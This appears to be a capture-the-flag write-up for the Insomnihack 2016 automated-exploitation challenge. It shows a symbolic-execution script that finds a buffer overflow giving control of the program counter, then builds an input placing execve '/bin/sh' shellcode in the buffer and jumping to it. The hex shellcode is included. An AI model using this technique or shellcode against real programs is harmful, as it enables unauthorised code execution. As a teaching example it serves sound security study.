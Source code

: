 # Insomnihack 2016 - AEG

In this challenge we have to create an automated exploitation script.
We set the keep_unconstrained flag, that allows us to find states where we have control of the program counter, and set extra options that allow us to automatically get the address of our buffer.
We disable verbose step so that we don't get spammed with step info like registers etc.
```
load 'demo_bin'
keep_unconstrained
set_entry_state add_options=['REVERSE_MEMORY_NAME_MAP', 'TRACK_ACTION_HISTORY']

verbose_step False
```
## Find a vulnerable state

Here we search our exploitable state, by checking unconstrained states for symbolic program counters.
Once we have a state where we have a controlled program counter we move over to the exploitation step.
```
def fully_symbolic(state):
    fully_sym = True
    for s in (chop_symbol &reg.pc):
        if not (is_symbolic s):
            fully_sym = False

    return fully_sym
            
exploitable_state_index = -1
while exploitable_state_index < 0:
    println exploitable_state_index
    step
    unconst = len (list_states unconstrained)
    for i in range(unconst):
        print "Checking the unconstrained states to see if they give control over the pc.\nStates to check:  "
        println (len (list_states unconstrained))
        select_state i unconstrained
        if fully_symbolic &state:
            println "Vulnerable state found, continue to exploit..."
            exploitable_state_index = i
            break
        else:
            move_state_to_stash i 'unconstrained' 'pruned'
```

# Exploiting the vulnerability

Now all we have left to do is set our shellcode in the buffer and make the PC point to that shellcode.
To do this we get the addresses our input occupies, then we check for a place where we have space for the shellcode and return that address.
```
def check_payload_fit(addr, addresses, length):
    result = True
    for i in range(length):
        to_test = addr + i
        if to_test in addresses:
            result = True
        else:
            result = False
            break
    return result
        


def get_controled_buffer_addr(shellcode_length):
    buffer_name = ""
    for var in get_stdin_variables:
        for n in &vars.var[0].variables:
            buffer_name = n
    target_address = -1
    buffer_addresses = get_addr_for_name buffer_name
    for addr in buffer_addresses:
        if (check_payload_fit addr buffer_addresses shellcode_length):
            target_address = addr
            break
    return target_address

shell_code = 0x6a68682f2f2f73682f62696e89e331c96a0b5899cd80
control_buffer_addr = get_controled_buffer_addr 22
```

Finally, we have to add two constraints, one that sets the shellcode in our buffer and one that sets the PC to point to the shellcode
We check if we have found a valid control buffer address and if the required constraints are satisfiable.
If they are satisfiable we add them and print the exploit string in hex.
```
if satisfiable &reg.pc == control_buffer_addr && &mem[control_buffer_addr->22] == shell_code && control_buffer_addr > 0:
    add_constraint &mem[control_buffer_addr->22] == shell_code
    add_constraint &reg.pc == control_buffer_addr
    to_hex (dump_stdstream stdin)
    print "Required input to spawn a /bin/bash shell: "
    println (dump_stdstream stdin)
else:
    println "Could not place the shellcode in the buffer and set the PC to the buffer address"

```